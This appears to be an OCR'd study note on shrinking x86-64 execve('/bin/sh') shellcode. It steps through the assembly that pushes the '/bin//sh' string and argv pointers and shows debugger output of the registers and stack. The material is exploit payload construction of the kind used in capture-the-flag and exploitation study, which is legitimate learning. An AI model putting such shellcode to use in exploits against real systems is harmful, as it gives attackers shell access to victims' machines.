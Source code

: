 How do we make this smaller:
```
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
```
This part pushes an "h"
then `/bin///s`


It also pushes the argument array separately, but it is a part of the original data, maybe we can just push the pointer to sh+NULL
This part pushes 'sh' followed by a nulll terminator
```
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
```
then it increases the stack pointer by the length of `b'/bin///sh\x00'` so it points to the new data, then saves that pointer into rsi before pushing it on the stack and rewriting rsi to rbp
```
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
```
Then finally calls execute


To make it smaller, can we point the `argv` pointer to `bin/sh`? the `/sh` should be the top value on the stack
Push null terminator
```
xor rsi,rsi
push rsi
```
Push b'/bin//sh
```
mov rdi,0x68732f2f6e69622f
push rdi
```
Then push that

At this point, we see the data in our registers and stack
```
   0x7fffffffddd0:                 xor    rsi,rsi
   0x7fffffffddd3                  push   rsi
   0x7fffffffddd4                  movabs rdi, 0x68732f2f6e69622f
   0x7fffffffddde                  push   rdi
●→ 0x7fffffffdddf                  push   rsp

$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rsi   : 0x0               
$rdi   : 0x68732f2f6e69622f ("/bin//sh"?)

stack ────
0x00007fffffffddf0│+0x0000: "/bin//sh"     ← $rsp
```
